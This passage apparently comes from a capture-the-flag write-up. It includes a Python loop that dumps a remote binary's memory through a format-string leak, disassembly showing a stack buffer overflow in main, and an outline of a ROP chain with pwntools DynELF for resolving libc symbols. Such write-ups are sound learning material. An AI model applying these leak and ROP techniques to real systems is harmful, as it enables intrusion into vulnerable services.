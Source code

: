 ```python

import gc

try:
    while len(leaked) < 32000:
        addr = base_addr + len(leaked)
        x = fmtleaker(addr)
        if x:
            leaked += x
        else:
            leaked += "\xff"
        log.info(hexdump(leaked))

        if len(leaked) % 128 == 0:
            log.info("saving in the middle")
            gc.collect()
            with open("out.elf", "wb") as f:
                f.write(leaked)
            gc.collect()

    log.info(hexdump(leaked))
finally:
    with open("out.elf", "wb") as f:
        f.write(leaked)
```


I noticed something fishy in the main function:

```
0x00400808      488b15b90420.  mov rdx, qword [0x00600cc8] ; probably stdin
0x0040080f      488d85f0f7ff.  lea rax, [rbp - local_810h] ; <-- fishy here
0x00400816      be00090000     mov esi, 0x900              ; this looks like a buffer overflow
0x0040081b      4889c7         mov rdi, rax
0x0040081e      e8fdfdffff     call fgets
```

The buffer is at `ebp - 0x810` but `fgets` is called with a length of 0x900. 
So we have a stack based buffer overflow. It doesn't look like there are stack
canaries. I whipped up a quick ROP chain that 

- leaks two address from the GOT (`fgets` and `setvbuf`)
- calls main again

Then I tried to look up the offset of the two functions in various libc
databases to find the offset of system, but had no luck.

But we can use the `DynELF` feature of pwntools, which searches the
datastructures of the dynamic linker to lookup symbols, given a reliable info 
leak.

Since we can only input two format strings and opening up a new connection will
probably randomize the addresses again, we have to construct a reliable info
leak first. We can do this with the buffer overflow in the main function. 
